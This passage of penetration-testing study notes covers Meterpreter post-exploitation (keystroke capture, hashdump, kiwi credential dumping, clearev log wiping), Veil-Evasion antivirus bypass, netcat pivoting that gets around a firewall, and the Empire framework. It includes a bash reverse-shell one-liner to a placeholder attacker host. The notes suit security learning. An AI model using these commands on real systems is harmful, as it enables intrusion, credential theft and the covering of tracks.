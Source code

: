o	record_mic -d N (records audio for N seconds and stores as WAV file in .msf4 directory
•	use priv (and then run: hashdump, getsystem, timestomp)
•	msfmap (not part of default Metasploit, to be downloaded and installed, does port scanning like nmap)
o	SecureState’s, msfmap, does port scanning from compromised machine via meterpreter payload
•	keyscan_start, keyscan_stop, keyscan_dump commands on meterpeter prompt will provide key strokes
•	clearev command will clear logs on target machine (system, application, error logs)
•	hashdump command dumps from Win memory (LSASS) and run hashdump script pulls from registry (safe)
•	load kiwi (loads kiwi) & creds_all command will show cleartext password of dumped user password hashes from win memory (LSASS)

## Veil-Evasion (Framework) by Will Schroeder and Chris Truncer
•	Creates vulnerable software to install on victim’s PC that is not generally detected by antivirus
•	Methods: Shutdown AV, Ghost Writing, Encoding, Loading malware into memory with touching filesystem, Custom compilation
•	Veil-Framework: Veil-Evasion (create payload), Veil-Catapult (run payload if psexec fails), Veil-Pillage (post-exploit module for creds, disable UAC, enable RDP, etc.), Veil-PowerUp (PowerShell for privilege escalation)
•	./Veil-Evasion.py (creates a resources configuration file for Metasploit to run it (.rc))
o	Has payloads split by programming language (C, C#, Python, Ruby, etc.)
o	Releases new ways to bypass AV tools every 15 days in the past, but seldom now
o	Has stage, which is meterpreter or shell and has stager, communication channel like reverse_tcp
o	“clean” command will delete earlier created files under /usr/share/veil-output/ folder
o	‘ExitOnSession’ will be set of false, when using Veil-evasion’s Metasploit configuration file (*.rc). This value is by default set to ‘true’ in Metasploit

# Post Exploitation
Netcat (& relay):
•	Transferring files to and from server & client. Also for pivoting (compromised host as pivot to other systems)
•	Command for “Service is up”:
while `nc -vv -z -w3 ip port > /dev/null` ; do “Service is ok”; sleep 1; done; while (true); echo -e “\x07”; done
•	Instead of netcat, getting shell on victim machine is possible using command injection on GUI
/bin/bash -i > /dev/tcp/attacker-ip/attacker-port 0<&1
•	mknod backpipe p (p is to create FIFO, p refers to ‘named pipe’) (backpipe is a name that we give to this)
•	nc -l -p <target1-port> 0<backpipe | <target2-ip> 22 1>backpipe
o	To login from attacker pc: putty.exe <target1-ip> <target1-port> (enter target2’s user/pass to login)
o	this will help to bypass firewall that blocks port 22 in iptables
•	0 refers to standard input; 1 refers to standard output; 2 refers to standard error;

Empire (Post-exploitation framework, based on PowerShell) (By Will Scheroeder, Justin Warner, Matt Nelson)
•	Consists of controlling server, called listener (written in Python) and agent clients (written in PowerShell)
•	Mix of tools: PowerSploit (Matt Graeber, Chris Campbell, Joseph Bialek) + Posh-SecMod (Carlos Perez) + UnmanagedPowerShell (Lee Christiansen) + PowerShell-AD-Recon (Sean Metcalf)
•	Inbuilt PowerShell frameworks (ps1 files): PowerBreach (Persistence) | Posh-ModSec (Discovery, network situation info) | PowerSploit (code execution, screenshots, keystokes, logging) | PowerUp (priv escalation) | PowerView (Acct info, Domain info)
•	Provides ‘Not Opsec Safe’ reminders before running the stagger
•	Uses PowerShell but doesn’t require powershell.exe on target windows
•	Renames exploited sessions for easier tracking
•	Set killdates for the agents on compromised machines (and set working hours for agents)
•	Automatically configure agents, ready for deployment and callback
•	Can run a BypassUAC attack for Windows, not to pop-up the window for high privilege commands
•	Encrypts the traffic using StaggingKey (which is an md5 hash of providing value on command line)